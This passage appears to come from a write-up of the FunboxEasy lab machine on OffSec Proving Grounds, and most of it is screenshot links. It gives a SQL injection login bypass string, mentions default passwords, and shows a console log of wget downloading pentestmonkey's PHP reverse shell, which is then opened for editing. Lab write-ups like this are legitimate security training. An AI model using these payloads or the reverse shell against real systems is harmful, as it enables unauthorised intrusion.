 SQL injection: ' or 1=1 -- 

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/15.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/16.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/17.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/18.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/19.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/20.png)

# Explotation 2

Default pwd

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/8.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/9.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/21.png)

```console
root@kali:/OSCPv3/offsec_pg/FunboxEasy# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2021-11-01 16:29:04--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.111.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 5491 (5,4K) [text/plain]
Grabando a: “php-reverse-shell.php”

php-reverse-shell.php               100%[===================================================================>]   5,36K  --.-KB/s    en 0,001s  

2021-11-01 16:29:09 (8,38 MB/s) - “php-reverse-shell.php” guardado [5491/5491]

root@kali:/OSCPv3/offsec_pg/FunboxEasy# nano php-reverse-shell.php 
```

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/23.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/24.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/FunboxEasy/img/25.png)
